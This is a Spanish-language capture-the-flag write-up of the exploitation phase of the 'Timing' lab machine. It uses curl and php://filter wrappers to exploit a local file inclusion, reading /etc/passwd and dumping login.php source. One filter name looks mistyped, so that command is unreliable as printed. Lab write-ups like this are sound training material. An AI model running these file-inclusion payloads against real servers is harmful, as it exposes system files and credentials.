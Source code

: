 ## Fase de Explotación

Teniendo este parámetro vulnerable a **`LFI`**, podemos intentar listar algún archivo del sistema y ver el resultado.

```console
p3ntest1ng:~$ curl -s -X GET "http://timing.htb/image.php?img=/etc/passwd"
Hacking attempt detected!
```

A pesar de ser vulnerable, nos muestra un mensaje de alerta pero no el contenido del archivo,
para poder solventar este inconveniente podemos utilizar el filtro base64 de php, esto lo haremos de la siguiente forma:

```console
p3ntest1ng:~$ curl -s -X GET "http://timing.htb/image.php?img=php://filter/convert.base64-decoder/resource=/etc/passwd" | grep -vE "nologin|false|sync"
root:x:0:0:root:/root:/bin/bash
aaron:x:1000:1000:aaron:/home/aaron:/bin/bash
```

Perfecto, gracias a este wrapper de php hemos sido capaces de leer el contenido de un archivo local, vamos a ver cómo aprovecharnos de esto.
En primer lugar podemos ver el código del archivo **`login.php`** y de este modo verificar si existen contraseñas
hardcodeadas en el código fuente que nos permita ingresar en la web o el sistema. Para ello usaré un filtro php de conversión a base64.

```console
p3ntest1ng:~$ curl -s -X GET "http://timing.htb/image.php?img=php://filter/convert.base64-encode/resource=login.php" | base64 -d
<?php

include "header.php";

function createTimeChannel()
{
    sleep(1);
}

include "db_conn.php";

if (isset($_SESSION['userid'])){
    header('Location: ./index.php');
    die();
}


if (isset($_GET['login'])) {
    $username = $_POST['user'];
    $password = $_POST['password'];

    $statement = $pdo->prepare("SELECT * FROM users WHERE username = :username");
    $result = $statement->execute(array('username' => $username));
    $user = $statement->fetch();

    if ($user !== false) {
        createTimeChannel();
        if (password_verify($password, $user['password'])) {
            $_SESSION['userid'] = $user['id'];
            $_SESSION['role'] = $user['role'];
	    header('Location: ./index.php');
            return;
        }
    }
    $errorMessage = "Invalid username or password entered";
```